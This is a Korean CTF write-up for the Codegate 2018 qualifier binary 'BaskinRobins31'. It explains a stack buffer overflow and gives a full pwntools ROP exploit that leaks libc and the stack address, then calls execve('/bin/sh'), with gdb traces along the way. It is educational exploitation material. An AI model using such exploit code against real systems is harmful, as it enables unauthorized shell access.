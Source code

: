 ```yaml
---
title: Codegate CTF 2018 Qual - BaskinRobins31
date: 2024-07-09 00:00:00 +0900
categories: [Pwnable, CTF]
tags: [pwnable, ctf, bof, rop]
---
```

## 0x00. Introduction

``` bash
[*] '/home/user/BaskinRobins31'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Concept

베스킨라빈스 게임을 거꾸로해서 **1~3까지의 숫자를 고르면 (중요)** 31에서 빼고, 마지막 숫자 0을 부르는 사람이 지는 게임을 구현했다.

## 0x01. Vulnerability

``` c
__int64 __fastcall your_turn(_DWORD *a1)
{
  ...
  char buf[160]; // [rsp+10h] [rbp-B0h] BYREF

  len = read(0, buf, 0x190uLL);
  ...
}
```

취약점은 단순하게 내가 입력을 넣는 `your_turn()`에서 BOF가 발생한다.

## 0x02. Exploit

``` python
    payload = b"1" + b"A" * 0xaf
    payload += b"B" * 8          # sfp
    payload += p64(bp['pppr'])
    payload += p64(1)
    payload += p64(elf.got['write'])
    payload += p64(8)
    payload += p64(elf.plt['write'])
    payload += p64(bp['main'])
    s.sendline(payload)

    s.recvn(len(payload) + 3)
    libc = u64(s.recv(1024)[0:6] + b"\x00\x00") - lib.symbols['write']
    system = libc + lib.symbols['execve']
    log.info(f"libc : {hex(libc)}")
    log.info(f"system : {hex(system)}")
```

BOF가 가능하니 ROP를 이용해서 libc leak을 했고 `execve` 주소까지는 잘 획득했다.

처음에는 `system`의 주소로 exploit을 진행했는데, stack alignment 때문인지 segmentation fault가 발생해서 `execve`로 바꿨더니 성공했다.

문제는 `execve`에 어떻게 `/bin/sh`를 전달하느냐인데, libc에서 찾아서 전달해도 되지만 `environ`을 이용한 stack leak으로 해결했다.

``` python
    payload = b"2" + b"C" * 0xaf
    payload += b"D" * 8
    payload += p64(bp['pppr'])
    payload += p64(1)
    payload += p64(libc + lib.symbols['environ'])
    payload += p64(8)
    payload += p64(elf.plt['write'])
    payload += p64(bp['main'])
    s.sendline(payload)

    s.recvn(len(payload) + 3)
    environ = u64(s.recv(1024)[1:7] + b"\x00\x00")
    log.info(f"environ : {hex(environ)}")
    log.info(f"binsh : {hex(environ - 0x1d0)}")
```

이렇게 `environ`에 담겨있는 stack 영역 주소를 받아와서 `buf+0x8`과의 offset 차이를 계산한 후, `buf+0x8`에 `/bin/sh` 문자열을 넣어서 `execve` 함수의 인자로 전달했다.

``` python
    payload = b"3" + b"E" * 7
    payload += b"/bin/sh\x00"
    payload += b"F" * (0xb0 - len(payload))
    payload += b"G" * 8
    payload += p64(bp['pppr'])
    payload += b"H" * 0x18
    payload += p64(bp['pppr'])
    payload += p64(environ - 0x1d0)
    payload += p64(0)
    payload += p64(0)
    payload += p64(system)
    s.sendline(payload)

    s.interactive()
```

그런데 마지막 payload에서 `pppr` 가젯에 갈때 이상하게 `rsi` 값만 이상해져서 쉘이 자꾸 안떴다.

``` bash
➜  0x40097a <your_turn+214>  ret
    ↳   0x40087a <helper+4>       pop    rdi
        0x40087b <helper+5>       pop    rsi
        0x40087c <helper+6>       pop    rdx
        0x40087d <helper+7>       ret
gef➤  x/4gx $rsp
0x7fffffffe188: 0x000000000040087a      0x00007fffffffe0d8
0x7fffffffe198: 0x00000000fffffffd      0x000000000000000
```

처음에는 뭐지 싶어서 그냥 `pppr` 가젯을 두 번 호출하는 것으로 해결했는데...

```
.text:000000000040095D  mov     rax, [rbp+var_B8]
.text:0000000000400964  mov     eax, [rax]
.text:0000000000400966  sub     eax, [rbp+choice]
```

알고보니 베스킨라빈스 게임을 하면서 내가 입력한 값이 감소하는 것이었다 ㅋㅋㅋㅋ

그래서 어? 앞에서는 왜 잘 됐지? 하고 확인해보니...

``` c
write(1, write_got, 8 - 1);
write(1, write_got, 8 - 2);
```

앞의 ROP payload에서는 `write`의 `size` 인자값에서 1, 2만큼 빠졌고, 주소값이 어차피 8바이트를 다 안쓰니까 괜찮았던거였다 ㅋㅋㅋㅋ

Payload를 작성할 때 dummy를 다르게 구성해서 어느 payload가 전달된건지 알 수 있게끔 하려고 한건데, 이런 나비효과가 발생할 줄이야...

## 0x03. Payload

``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
import sys

DEBUG = True
BINARY = "BaskinRobins31"
LIBRARY = "libc.so.6"

bp = {
    'main' : 0x0000000000400a4b,
    'end_of_main' : 0x0000000000400b5a,
    'your_turn' : 0x00000000004008a4,
    'end_of_your_turn' : 0x000000000040097a,
    'pppr' : 0x40087a,                          # pop rdi; pop rsi; pop rdx
}

gs = f'''
b *{bp['end_of_your_turn']}
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def main():
    if(len(sys.argv) > 1):
        s = remote("0.0.0.0", int(sys.argv[1]))
    else:
        s = process(BINARY)
        if DEBUG:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    s.recv(1024)

    payload = b"1" + b"A" * 0xaf
    payload += b"B" * 8          # sfp
    payload += p64(bp['pppr'])
    payload += p64(1)
    payload += p64(elf.got['write'])
    payload += p64(8)
    payload += p64(elf.plt['write'])
    payload += p64(bp['main'])
    s.sendline(payload)

    s.recvn(len(payload) + 3)
    libc = u64(s.recv(1024)[0:6] + b"\x00\x00") - lib.symbols['write']
    system = libc + lib.symbols['execve']
    log.info(f"libc : {hex(libc)}")
    log.info(f"system : {hex(system)}")

    payload = b"2" + b"C" * 0xaf
    payload += b"D" * 8
    payload += p64(bp['pppr'])
    payload += p64(1)
    payload += p64(libc + lib.symbols['environ'])
    payload += p64(8)
    payload += p64(elf.plt['write'])
    payload += p64(bp['main'])
    s.sendline(payload)

    s.recvn(len(payload) + 3)
    environ = u64(s.recv(1024)[1:7] + b"\x00\x00")
    log.info(f"environ : {hex(environ)}")
    log.info(f"binsh : {hex(environ - 0x1d0)}")

    payload = b"3" + b"E" * 7
    payload += b"/bin/sh\x00"
    payload += b"F" * (0xb0 - len(payload))
    payload += b"G" * 8
    payload += p64(bp['pppr'])
    payload += b"H" * 0x18
    payload += p64(bp['pppr'])
    payload += p64(environ - 0x1d0)
    payload += p64(0)
    payload += p64(0)
    payload += p64(system)
    s.sendline(payload)

    s.interactive()

if __name__=='__main__':
    main()
```